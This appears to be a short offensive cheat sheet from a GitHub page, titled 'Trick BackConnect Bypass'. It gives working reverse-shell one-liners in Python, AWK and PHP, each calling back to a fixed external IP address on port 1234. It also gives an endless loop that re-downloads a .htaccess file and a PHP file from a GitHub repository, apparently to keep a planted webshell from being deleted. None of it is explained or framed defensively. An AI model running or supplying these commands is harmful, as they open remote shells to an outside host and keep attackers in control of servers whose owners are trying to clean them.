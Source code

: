 # Trick BackConnect Bypass
## Python 
```export RHOST="104.248.145.105";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'```
## AWK 
```awk 'BEGIN {s = "/inet/tcp/0/104.248.145.105/1234"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null```
## PHP EXEC & PHP SHELL EXEC
[EXEC] ```php -r '$sock=fsockopen("104.248.145.105",1234);exec("sh <&3 >&3 2>&3");'```

[SHELL_EXEC] ```php -r '$sock=fsockopen("104.248.145.105",1234);shell_exec("sh <&3 >&3 2>&3");'```

# Tips & Trick Bypass Webshell / Crack Other Things / Defender Stuff
### Anti Delete Command : 
```while true; do echo $(TZ=Asia/Jakarta date) && curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o .htaccess && echo $(TZ=Asia/Jakarta date) && curl https://raw.githubusercontent.com/t101804/repshare/main/ac.php -o ac.php; done```
